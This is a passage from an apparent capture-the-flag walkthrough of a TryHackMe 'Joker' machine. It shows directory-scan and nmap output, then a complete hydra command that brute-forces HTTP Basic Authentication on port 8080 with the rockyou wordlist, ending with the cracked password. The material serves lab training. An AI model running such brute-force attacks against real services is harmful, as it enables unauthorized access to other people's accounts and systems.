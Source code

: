 ```
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/10/08 20:05:04 Finished
===============================================================
```

`secret.txt`

5. There is another file which reveals information of the backend, what is it?

`phpinfo.php`

1. When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

- [http://10.10.252.64/secret.txt](http://10.10.252.64/secret.txt)

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

2. What port on this machine need to be authenticated by Basic Authentication Mechanism?

```
8080/tcp open  http    Apache httpd 2.4.29
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

3. At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

```
bibo318@parrot:~/CTFs/tryhackme/HA Joker CTF$ hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.252.64 -m / http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-08 20:10:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.252.64:8080/
[8080][http-get] host: 10.10.252.64   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-08 20:10:47
```
